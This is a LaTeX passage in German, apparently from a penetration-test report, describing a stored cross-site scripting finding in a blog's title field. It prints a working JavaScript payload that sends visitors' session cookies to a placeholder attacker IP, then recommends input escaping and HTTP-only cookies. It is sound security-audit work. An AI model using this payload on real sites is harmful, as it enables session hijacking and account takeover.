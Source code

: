 
\section{\makecvssbadge Stored Cross-Site Scripting (XSS)}
\subsection*{Proof of Concept}
Der Angreifer kann nun einen neuen Block-Eintrag erstellen und den folgenden JavaScript-Code in das Textfeld für den Titel des Blogeintrags einfügen (siehe \autoref{listing:pedicure-xss}). Dadurch werden die SessionIDs aller Benutzer, die die Startseite mit den Blogeinträgen öffnen, an den Angreifer gesendet. Auf diese Weise wird die SessionID für den Benutzer \texttt{Odo} ermittelt, der über Entwicklerrechte auf dem Webserver verfügt.

\begin{listing}[!ht]
\begin{verbatim}
<span id="sebastian" />
<script>
    image = document.createElement('img');
    image.src = "http://<Angreifer-IP>/?" + document.cookie;
    document.getElementById('sebastian').appendChild(image);
</script>
\end{verbatim}
\caption{Cross Site Scripting zum Erlangen von SessionIDs}
\label{listing:pedicure-xss}
\end{listing}

\subsection*{Empfehlungen}
\begin{itemize}
    \item Eingabevalidierung: Validieren und Escapen sie alle Nutzereingaben, um Injection Angriffe zu verhindern (Siehe \cite{owaspInputValidation}).
    \item Sichere Session-Cookies: Setzen sie HTTP-Only Cookies für die SessionIDs, damit diese nicht durch clientseitigen JavaScript Code ausgelesen werden können (Siehe \cite{owaspSessionManagement}).
\end{itemize}




